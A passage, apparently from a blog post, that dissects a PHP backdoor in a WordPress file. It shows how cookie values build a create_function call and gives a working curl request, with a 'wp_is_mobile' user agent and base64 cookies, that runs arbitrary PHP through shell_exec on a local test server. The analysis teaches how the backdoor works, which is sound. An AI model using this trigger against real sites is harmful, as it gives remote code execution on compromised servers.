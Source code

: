 > If you're wondering why there's an @ symbol in front of `$_iv`, it instructs PHP to suppress errors. Which, if you're an attacker, you'd like to keep hidden from your target.

```php
$_iv = @create_function($g[10], base64_decode(base64_decode($g[53])));
```

The variable `$_iv` is reused here. We set it to `base64_decode` on line three. It is used in line four to compute a new value for itself. And then that computed value is called on line five.

We've almost got it! We just need to fill in those `create_function` arguments with cookie values that fit our algorithm.

```php
$_iv = @create_function("", base64_decode(base64_decode("WldOb2J5QnphR1ZzYkY5bGVHVmpLQ2R3ZDJRbktUcz0=")));
```

An empty string indicating no parameters and a double encoded string will do it. The double encoded string can be any PHP code you want to execute. In this example, I'm printing the current working directory.

```php
echo shell_exec('pwd');
```

Let's go back to our separate statement rewrite of the original code and decorate it with the cookie values we've planned out. This should help illustrate the final HTTP request we need to send.

```php
//    "base64_decode" . ""
$qr = $g[33]          . $g[32];

//        b64("create_function") . ""
$iv = $qr($g[78]                 . $g[18]);

//         b64("base64_decode") . ""
$_iv = $qr($g[12]               . $g[17]);

//          ""               b64(b64("your PHP payload"))
$_iv = @$iv($g[10], $_iv($qr($g[53])));

@$_iv();
```

This makes writing a `curl` command much easier.

```console
curl -v -A "wp_is_mobile" --cookie "33=base64_decode; 32=; 78=Y3JlYXRlX2Z1bmN0aW9u; 18=; 12=YmFzZTY0X2RlY29kZQ==; 17=; 10=; 53=WldOb2J5QnphR1ZzYkY5bGVHVmpLQ2R3ZDJRbktUcz0=" http://localhost:8000/wp-includes/vars.php --output -
```

## Hack Yourself
Running a test on your local system is quite simple; especially with the addition of a [built-in web server](http://www.php.net/manual/en/features.commandline.webserver.php) in PHP versions 5.4 and later.
